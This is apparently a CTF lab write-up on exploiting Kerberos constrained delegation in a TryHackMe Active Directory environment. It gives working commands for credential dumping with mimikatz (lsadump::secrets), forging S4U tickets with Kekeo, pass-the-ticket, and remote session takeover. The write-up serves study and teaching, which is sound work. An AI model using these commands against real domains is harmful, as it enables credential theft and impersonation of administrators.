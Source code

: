 # Exploiting Kerberos Delegation

### <mark style="color:green;">Kerberos Delegation</mark>

Kerberos Delegation is different from Permission Delegation. It allows a service to request resources or perform actions on behalf of a user, while maintaining the security principles of authentication and authorization. The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server.

To understand how this works, we need to know how Kerberos Authentication works first as I have explained this previously

{% embed url="https://mfkrypt.gitbook.io/stuff/ctf-writeups/tryhackme/lateral-movement-and-pivoting/use-of-alternate-authentication-material#kerberos-authentication" %}

***

### <mark style="color:green;">How Kerberos Delegation Works</mark>

{% stepper %}
{% step %}
#### &#x20;Authentication

The user authenticates to the KDC and receives a TGT
{% endstep %}

{% step %}
#### Service Ticket Request

When the user wants to access a service (e.g., a web server), they send the TGT to the KDC. Service Ticket is issued by the KDC
{% endstep %}

{% step %}
#### Delegation (Service Accessing Another Service on Behalf of User)

* If the first service **requires delegation** (e.g., a web server accessing a database as the user), it needs a **service ticket for another service**.
* The first service asks the KDC **for a service ticket** to access the second service **on behalf of the user**.
* The KDC issues a **new service ticket**, allowing the first service to act as the user when accessing the second service.
{% endstep %}

{% step %}
#### Accessing the Downstream Service

The first service presents the **delegated service ticket** to the second service (e.g., a database).
{% endstep %}
{% endstepper %}

<figure><img src="../../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:green;">Types of Kerberos Delegation</mark>

|                           Unconstrained Delegation                           |                                                                    Constrained Delegation                                                                    |                                                                        Resource-Based Constrained Delegation                                                                        |
| :--------------------------------------------------------------------------: | :----------------------------------------------------------------------------------------------------------------------------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| A service with this setting can impersonate a user to **any other service**. | The service can only impersonate users for **specific services** defined in Active Directory (via <mark style="color:red;">`msDS-AllowedToDelegateTo`</mark> | Instead of the delegating service, the **target service** decides which accounts can delegate to it (via <mark style="color:red;">`msDS-AllowedToActOnBehalfOfOtherIdentity`</mark> |
|        <mark style="color:red;">`TRUSTED_FOR_DELEGATION`</mark> flag         |                                             <mark style="color:red;">`TRUSTED_TO_AUTH_FOR_DELEGATION`</mark> flag                                            |                                                                                          -                                                                                          |
|                                  🔴 **High**                                 |                                                                        🟠 **Moderate**                                                                       |                                                                                     🟢 **Lower**                                                                                    |

The following are examples of services that can be configured for delegation:

<details>

<summary>Services that can be Configured for Delegation</summary>

* **HTTP** - Used for web applications to allow pass-through authentication using AD credentials.

- **CIFS** - Common Internet File System is used for file sharing that allows delegation of users to shares.

* **LDAP** - Used to delegate to the LDAP service for actions such as resetting a user's password.

- **HOST** - Allows delegation of account for all activities on the host.

* **MSSQL** - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.

</details>



***

***

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">Constrained Delegation Exploitation</mark>

Using our compromised account previously, the first thing we need to do is enumerate available delegations. We can use the Get-NetUser cmdlet of PowerSploit for this enumeration

```powershell
Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth
```

<figure><img src="../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

Looking at the output, we can see that the `svcIIS` account can delegate the HTTP and WSMAN services on THMSERVER1.  PowerShell Remoting uses the HTTP and WSMAN services as well.

This also indicates that `svcIIS` can request a service ticket on behalf of an impersonated user.  The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

### <mark style="color:green;">Dumping Plaintext Credentials</mark>

Checking the service under the SA:

```powershell
Get-WmiObject Win32_Service | Where-Object { $_.StartName -like "*svcIIS*" } | Select-Object Name, DisplayName, StartName, State
```

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

A service named `thmwinauth` running under the `svcIIS@za.tryhackme.loc` account, but it is currently stopped. Now we use token-based impersonation using mimikatz `token::elevate` to impersonate SYSTEM.



\*\*\*Note: **This is not Kerberos Delegation Impersonation**

```powershell
mimikatz.exe
mimikatz # token::elevate
```

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Now dump the plaintext credentials

```powershell
mimikatz # lsadump::secrets
```

<figure><img src="../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">Impersonating Tier 1 Admin</mark>

Okay now we have the password. Now what we want to do is generate a TGT using **Kekeo** and load them into memory using **Mimikatz**

<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

Generate a TGT that can be used to generate TGS (tickets) for the HTTP and WSMAN services:

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
```

<figure><img src="../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Looking back at Bloodhound we can see several members in the Tier 1 Admin group. We can choose to impersonate anyone

<figure><img src="../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

Forge the TGS for the account we want to impersonate. Need to do this for both HTTP and WSMAN services to allow us to create a PSSession on THMSERVER1:

```powershell
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:<USER> /service:<service>/THMSERVER1.za.tryhackme.loc
```

HTTP:

<figure><img src="../../../.gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>

WSMAN:

<figure><img src="../../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

Great. Now we have two TGS for their services respectively. Pass the tickets using Mimikatz

```
kerberos::ptt <TICKET_NAME>
```

<figure><img src="../../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>

Verify the tickets were imported

```
klist
```

<figure><img src="../../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

```powershell
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

<figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

Get the flag in Administrator's Desktop

<figure><img src="../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>
